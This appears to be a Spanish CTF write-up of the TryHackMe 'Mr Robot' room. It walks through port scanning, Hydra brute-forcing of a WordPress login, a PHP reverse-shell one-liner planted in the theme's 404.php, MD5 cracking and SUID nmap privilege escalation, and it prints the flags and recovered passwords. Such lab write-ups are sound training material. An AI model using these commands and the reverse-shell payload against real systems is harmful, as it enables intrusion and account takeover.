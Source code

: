 ```yaml
---
icon: flag
---
```


# Mr Robot CTF TryHackMe

### Escaneo de puertos

```shell
nmap -p- --min-rate 5000 -sV <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-13 10:14 EDT
Nmap scan report for 10.10.192.219
Host is up (0.047s latency).

PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_http-title: Site doesn't have a title (text/html).
Device type: general purpose|specialized|storage-misc|broadband router|WAP|printer
Running (JUST GUESSING): Linux 5.X|3.X|4.X|2.6.X (89%), Crestron 2-Series (87%), HP embedded (87%), Asus embedded (86%)
OS CPE: cpe:/o:linux:linux_kernel:5.4 cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 cpe:/o:crestron:2_series cpe:/h:hp:p2000_g3 cpe:/o:linux:linux_kernel:2.6.22 cpe:/h:asus:rt-n56u cpe:/o:linux:linux_kernel:3.4
Aggressive OS guesses: Linux 5.4 (89%), Linux 3.10 - 3.13 (88%), Linux 3.10 - 4.11 (88%), Linux 3.12 (88%), Linux 3.13 (88%), Linux 3.13 or 4.2 (88%), Linux 3.2 - 3.5 (88%), Linux 3.2 - 3.8 (88%), Linux 4.2 (88%), Linux 4.4 (88%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   44.99 ms 10.9.0.1
2   45.06 ms 10.10.192.219

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.68 seconds
```

### Gobuster

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.192.219/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 218]
/.htpasswd            (Status: 403) [Size: 218]
/0                    (Status: 301) [Size: 0] [--> http://10.10.192.219/0/]
/0000                 (Status: 301) [Size: 0] [--> http://10.10.192.219/0000/]
/Image                (Status: 301) [Size: 0] [--> http://10.10.192.219/Image/]
/admin                (Status: 301) [Size: 235] [--> http://10.10.192.219/admin/]
/atom                 (Status: 301) [Size: 0] [--> http://10.10.192.219/feed/atom/]
/audio                (Status: 301) [Size: 235] [--> http://10.10.192.219/audio/]
/blog                 (Status: 301) [Size: 234] [--> http://10.10.192.219/blog/]
/css                  (Status: 301) [Size: 233] [--> http://10.10.192.219/css/]
/dashboard            (Status: 302) [Size: 0] [--> http://10.10.192.219/wp-admin/]
/favicon.ico          (Status: 200) [Size: 0]
/feed                 (Status: 301) [Size: 0] [--> http://10.10.192.219/feed/]
/image                (Status: 301) [Size: 0] [--> http://10.10.192.219/image/]
/images               (Status: 301) [Size: 236] [--> http://10.10.192.219/images/]
/intro                (Status: 200) [Size: 516314]
/js                   (Status: 301) [Size: 232] [--> http://10.10.192.219/js/]
/license              (Status: 200) [Size: 309]
/login                (Status: 302) [Size: 0] [--> http://10.10.192.219/wp-login.php]
/page1                (Status: 301) [Size: 0] [--> http://10.10.192.219/]
/phpmyadmin           (Status: 403) [Size: 94]
/rdf                  (Status: 301) [Size: 0] [--> http://10.10.192.219/feed/rdf/]
/readme               (Status: 200) [Size: 64]
/robots               (Status: 200) [Size: 41]
/robots.txt           (Status: 200) [Size: 41]
/rss                  (Status: 301) [Size: 0] [--> http://10.10.192.219/feed/]
/rss2                 (Status: 301) [Size: 0] [--> http://10.10.192.219/feed/]
/sitemap              (Status: 200) [Size: 0]
/sitemap.xml          (Status: 200) [Size: 0]
/video                (Status: 301) [Size: 235] [--> http://10.10.192.219/video/]
/wp-admin             (Status: 301) [Size: 238] [--> http://10.10.192.219/wp-admin/]
/wp-content           (Status: 301) [Size: 240] [--> http://10.10.192.219/wp-content/]
/wp-config            (Status: 200) [Size: 0]
/wp-includes          (Status: 301) [Size: 241] [--> http://10.10.192.219/wp-includes/]
/wp-login             (Status: 200) [Size: 2671]
/xmlrpc               (Status: 405) [Size: 42]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```

Si nos vamos a `/robots.txt` en la URL veremos 2 ubicaciones en las que pone lo siguiente...

> /key-1-of-3.txt (flag1)

```
073403c8a58a1f80d943455fb30724b9
```

> /fsocity.dic

Eso es un diccionario de palabras que te descarga, por lo que lo usaremos para probar fuerza bruta tanto en el usuario como en la contraseña...

En el panel de login de WordPress vemos que cuando fallamos el usuario nos pone que fallamos el usuario, pero cuando acertamos el usuario y la contraseña no, nos pone que fallamos la contraseña, por lo que aprovecharemos eso para sacar usuario y contraseña en WordPress...

```shell
hydra -L fsocity.dic -p <PASSWORD> <IP> http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username"
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-13 11:16:10
[DATA] max 16 tasks per 1 server, overall 16 tasks, 858235 login tries (l:858235/p:1), ~53640 tries per task
[DATA] attacking http-post-form://10.10.192.219:80/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username
[80][http-post-form] host: 10.10.192.219   login: Elliot   password: admin
```

Con esto ya sabemos el usuario, por lo que utilizaremos `hydra` para sacar la contraseña...

```shell
hydra -l Elliot -P fsocity.dic <IP> http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username"
```

```
Password = ER28-0652
```

Una vez dentro haremos una Reverse Shell...

Dentro del panel de WordPress nos vamos a `Themes` y `Editor` de ahi nos dirigimos a donde pone `404.php` y para que nos salga ese error (Entrar dentro de ese .php) tendremos que poner una ruta mala o que directamente no pille dentro de WordPress, en mi caso `http://<IP>/mi-wordpress` una vez alli ponemos en el codigo de php del `404.php` lo siguiente...

```shell
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
```

Lo guardamos y estamos a la escucha...

```shell
nc -lvnp <PORT>
```

Una vez recargada la pagina de lerror nos dara la shell...

Si nos vamos a la `/home` de `robot` veremos que hay un `password.raw-md5` con el usuario y contraseña de robot, pero la contraseña esta hasheada, por lo que la tenemos que crackear...

Info:

```
robot:c3fcd3d76192e4007dfb496cca67e13b
```

```shell
john --wordlist=<WORDLIST> --format=Raw-MD5 <HASH_FILE>
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
abcdefghijklmnopqrstuvwxyz (robot)     
1g 0:00:00:00 DONE (2024-05-13 12:06) 100.0g/s 4051Kp/s 4051Kc/s 4051KC/s bonjour1..123092
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

```
robot:abcdefghijklmnopqrstuvwxyz
```

Nos importamos una shell por que si no, no nos dejara cambiar de usuario...

```shell
python -c 'import pty;pty.spawn("/bin/bash")'
```

Leemos la segunda flag llamada `key-2-of-3.txt`...

> key-2-of-3.txt (flag2)

```
822c73956184f694993bede3eb39f959
```

Si hacemos...

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Nos buscara lo que podemos ejecutar con SUID (root)

```
34835  496 -rwsr-xr-x   1 root     root       504736 Nov 13  2015 /usr/local/bin/nmap
```

Vemos que podemos ejecutar `nmap` con privilegios de "root" por lo que haremos lo siguiente...

```shell
nmap --interactive

# Dentro del entorno de 'nmap'
!whoami

nmap> root

# Cuando vemos que somos root nos damos una shell
!sh
```

Ya seriamos `root` por lo que leemos la ultima flag...

> key-3-of-3.txt (flag3)

```
04787ddef27c3dee1ee161b21670b4e4
```
